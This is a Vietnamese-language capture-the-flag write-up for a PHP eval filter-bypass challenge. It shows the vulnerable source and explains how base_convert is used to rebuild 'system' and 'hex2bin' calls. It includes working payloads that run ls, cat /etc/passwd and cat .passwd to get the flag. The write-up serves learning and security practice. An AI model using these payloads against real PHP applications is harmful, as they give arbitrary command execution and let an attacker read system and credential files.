



# PHP-Eval-Advanced filter bypass

- [PHP-Eval-Advanced filter bypass](#php-eval-advanced-filter-bypass)
  - [Source code](#source-code)
  - [Phân tích](#phân-tích)
  - [Payload](#payload)

## Source code 

```php
<?php

error_reporting(0);

function safe_eval($calculus)
{
  preg_match_all("/([a-z_]+)/", strtolower($calculus), $words);
  $words = $words[0];

  $accepted_words = ['base_convert', 'pi'];
  $alphabet = str_split('_abcdefghijklmnopqrstuvwxyz0123456789.+-*/%()[],');

  var_dump($calculus);

  $safe = true;
  for ($i = 0; $i < count($words); $i++) {
    if (strlen($words[$i]) && (array_search($words[$i], $accepted_words) === false)) {
      $safe = false;
    }
  }

  for ($i = 0; $i < strlen($calculus); $i++) {
    if (array_search($calculus[$i], $alphabet) === false) {
      $safe = false;
    }
  }

  if (strlen($calculus) > 256)
    return "Expression too long.";
  $ans = '';
  if (($safe) === false)
    $ans = "This calculus is not safe.";
  else
    eval ('$ans=' . $calculus . ";");
  return $ans;
}
?>

<!DOCTYPE html>
<html lang="fr">

<head>
  <meta charset="UTF-8">
  <link type="text/css" rel="stylesheet" href="./style.css">
  <title>PHP - Advanced filters bypass</title>
</head>

<body>
  <div class="content">
    <h2>PHP - Advanced filters bypass</h2>
    <br>
    <p>You can access the <a href="./?source">source code</a>.</p>
    <form class="" action="index.php" method="post">
      <table style="width:100%">
        <tr>
          <td><input class="forminput" type="text" name="calculus" value="1+1" size=50></td>
        </tr>
        <tr>
          <td><button class="formsubmitbutton" type="submit">Give me the result !</button></td>
        </tr>
        <?php if (isset($_POST['calculus'])): ?>
          <tr>
            <td><br /></td>
          </tr>
          <tr>
            <td class="result">
              <code style="width:100%;white-space: pre-wrap;"><?= @safe_eval($_POST['calculus']) ?></code>
            </td>
          </tr>
        <?php endif ?>
      </table>
    </form>
  </div>
</body>

</html>
```

## Phân tích

- Hàm `safe_eval()` được dùng để filter dữ liệu và dùng hàm `eval` để thực thi `$calculus` được truyền vào. 
- Trong hàm `safe_eval()` sử dụng `preg_match_all` để tách các chữ cái và kí tự `_`, kiểm tra kí độ dài của chuỗi nhập vào.
- Phân tích sâu hơn: 
  - Hàm `preg_match_all("/([a-z_]+)/", strtolower($calculus), $words);` dùng để lấy dữ liệu từ chuỗi `$calculus`, tách các kí tự `a-z,_` và sau đó lưu vào mảng $words.
  - Đoạn code preg_match_all: 
    ```php
    <?php
    preg_match_all("/([a-z_]+)/", strtolower('abcdefghijk'), $words);
    print_r($words);
    echo "\n";
    $words = $words[0];
    ?>
    ```

    ```text
    Output:
    Array
      (
        [0] => Array
          (
            [0] => abcdefghijk
          )

        [1] => Array
          (
            [0] => abcdefghijk
          )
      )
    ```
  - Biến `$words` là mảng 2 chiều, được tạo ra từ hàm `preg_match_all()`, sau đó gán `$words = $words[0]`.
  ```php
  for ($i = 0; $i < count($words); $i++) 
  {
    if (strlen($words[$i]) && (array_search($words[$i], $accepted_words) === false)) 
    {
      $safe = false;
    }
  }
  ```
  - Đây là đoạn code kiểm tra xem chuỗi nhập vào có phải hợp lí không. Chuỗi hợp lệ được lưu trong mảng `$accepted_words`. Nó sẽ kiểm tra từng chuỗi trong mảng `$words`, sau đó kiểm tra xem nó có phải là chuỗi hợp lệ không.
  ```php
  for ($i = 0; $i < strlen($calculus); $i++) {
    if (array_search($calculus[$i], $alphabet) === false) 
    {
      $safe = false;
    }
  }
  ```
  - Đoạn code này sẽ kiểm tra xem trong chuỗi nhập vào có các kí tự trong mảng `$alphabet`, nếu không trùng sẽ trả về false
  ```php
  if (strlen($calculus) > 256)
    return "Expression too long.";
  $ans = '';
  if (($safe) === false)
    $ans = "This calculus is not safe.";
  else
    eval ('$ans=' . $calculus . ";");
  return $ans;
  ```
  - Đoạn code này sẽ dùng để kiểm tra các điều kiện và thực thi chuỗi người dùng nhập vào.

  ```php
  var_dump($calculus);
  ```
  - Ham này sẽ dùng để in ra thông tin về mảng, chuỗi của $calculus
  - Hàm base_convert(): 
  - Hàm `base_convert(1751504350, 10, 36)` sẽ chuyển đổi một số từ hệ cơ số 10 sang hệ cơ số 36, với kết quả bao gồm cả các chữ cái và chữ số trong hệ cơ số 36. Kết quả của phép chuyển đổi này chính là chuỗi đại diện của số đó trong hệ cơ số 36.
  - Để tái tạo hàm system từ hệ cơ số 36 về hệ cơ số 10, chúng ta sử dụng:
    `base_convert("system", 36, 10)`
  - Tương tự, command `ls` cũng được tạo như sau: `base_convert(784,10,36)`
  - Kết hợp 2 hàm => `system(ls) = base_convert(1751504350,10,36)(base_convert(784,10,36))`
  - Tại sao lại có `)` ở cuối ? PHP cho rằng kết quả của base_convert(1751504350,10,36) là một tên hàm. Sau đó, nó tìm cách gọi tên hàm này (ở đây là "system") với tham số từ base_convert(784,10,36). PHP sẽ hiểu rằng đang gọi hàm `system`
  - Nhưng hiện tại mới chỉ thực thi được command khong có space và 1 số kí tự khác.
  => sau khi tìm hiểu thì trong php có 2 hàm `hex2bin` cũng như `bin2hex` để chuyển các dữ liệu từ bin sang hex cũng như hex sang bin.
  - Theo tìm hiểu thì trong hầu hết các trường hợp, kích thước tối đa của 1 số nguyên trong PHP là 2^32 bit => cần giới hạn đầu vào của base_convert thành các chuỗi biểu diễn các số có độ dài tối đa là 4 byte. Nếu cần có thể chia chuỗi đó thành nhiều phần khác nhau và nối chúng bằng dấu `.` => có thể thực hiện bất kì lệnh linux nào = cách chia nó thành các thành phần có độ dài 4 byte trở xuống. Chúng ta sẽ chuyển đổi các chuỗi thành chuỗi hex, chuyển đổi chuỗi hex này thành số nguyên bằng base_convert(HEX_CHUNK,10,36) và sau đố cuối cùng nối chúng bên trong 1 lệnh gọi được tạo bằng hex2bin và đặt bên trong 1 lệnh gọi đến system và nó sẽ được thực thi.  

## Payload 

- Payload sẽ giống thế này: `base_convert(1751504350,10,36)(base_convert(37907361743,10,36)(base_convert(chunk1,10,36).base_convert(chunk2,10,36).base_convert(chunk3,10,36)...))`
- Tạo payload với hàm `cat /etc/passwd`: `base_convert(1751504350,10,36)(base_convert(37907361743,10,36)(base_convert(477080140104,10,36).base_convert(189751590363,10,36).base_convert(189803607951,10,36).base_convert(428637964,10,36)))` => `system(hex2bin('636174202f6574632f706173737764'))` => `system(cat /etc/passwd)`



- Và đây là kết quả sau khi payload chuỗi kia vào đoạn code
- chúng ta sẽ payload tạo payload system('ls') để xem bên trong nó có gì: `base_convert(1751504350,10,36)(base_convert(784,10,36))`



=> có file `ch70.s` có thể thực thi. `base_convert(1751504350,10,36)(base_convert(37907361743,10,36)(base_convert(187349691536,10,36).base_convert(149148,10,36).base_convert(111711,10,36)))`

- Không thể thực thi. Đoán rằng có thể flag nằm trong file ẩn .passwd => tạo payload `cat .passwd`: `base_convert(1751504350,10,36)(base_convert(37907361743,10,36)(base_convert(477080140104,10,36).base_convert(86,10,36).base_convert(423544719,10,36).base_convert(428637964,10,36)))` => có được flag 
